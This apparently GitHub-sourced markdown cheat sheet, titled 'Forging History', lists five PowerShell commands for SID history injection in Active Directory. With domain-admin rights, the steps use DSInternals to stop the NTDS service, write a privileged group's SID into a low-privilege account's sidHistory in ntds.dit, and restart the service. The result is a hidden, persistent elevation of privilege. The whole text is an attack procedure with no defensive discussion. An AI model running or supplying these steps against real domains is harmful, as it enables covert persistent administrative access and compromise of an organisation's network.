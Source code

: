 # FORGING HISTORY

## Requirements: Domain Admin privileges or equivalent

## Tools: DSInternals

#### 1) 

    Get-ADUser YOUR_AD_USERNAME -properties sidhistory,memberof

#### 2) 

    Get-ADGroup "Domain Admins"

#### 3) 

    Stop-Service -Name ntds -force

#### 4) 

    Add-ADDBSidHistory -SamAccountName 'LOW-PRIV_AD_ACCOUNT_USERNAME' -SidHistory 'SID_TO_ADD_TO_SID_HISTORY' -DatabasePath C:\Windows\NTDS\ntds.dit

#### 5) 

    Start-Service -Name ntds
